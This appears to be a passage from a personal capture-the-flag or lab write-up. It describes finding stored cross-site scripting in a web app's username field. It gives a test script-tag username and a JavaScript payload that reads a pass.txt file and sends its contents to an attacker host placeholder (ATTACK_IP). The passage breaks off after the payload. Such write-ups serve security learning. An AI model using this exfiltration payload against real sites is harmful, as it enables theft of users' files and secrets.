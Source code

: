 ![Pasted image 20250730163231.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250730163231.png)

So i tried to trigger [Cross-site Scripting (XSS)](../../3%20-%20Tags/Hacking%20Concepts/Cross-site%20Scripting%20(XSS).md) here, but it won't work, actually you'll discover that we have **XSS** in the username parameter, it appears in the comments so it might be vulnerable.

We can register a user named `<script>alert(1);</script>` and comment something to see the pop-up :

![Pasted image 20250731115851.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250731115851.png)

We delete the comment after that to not make confusion in XSS exploiting later, then we log out.
# Exploit

We can [Exploit](../../3%20-%20Tags/Hacking%20Concepts/Exploit.md) the vulnerability in the username parameter ([Cross-site Scripting (XSS)](../../3%20-%20Tags/Hacking%20Concepts/Cross-site%20Scripting%20(XSS).md)) to read the mentioned pass.txt file.
## Payload

First we need our script, we'll make the machine download it and run it by Stored XSS to see the file.

Let’s create a simple script to fetch the **pass.txt** file and send it’s contents to our attacking server :

```bash
fetch('http://127.0.0.1/dir/pass.txt')
  .then(response => response.text())
  .then(data => {
    let attackerServer = 'http://ATTACK_IP:80/catch?data=' + encodeURIComponent(data);
    // Use an Image tag for GET request
    let img = document.createElement('img');
    img.src = attackerServer;
    document.body.appendChild(img);
  });
```
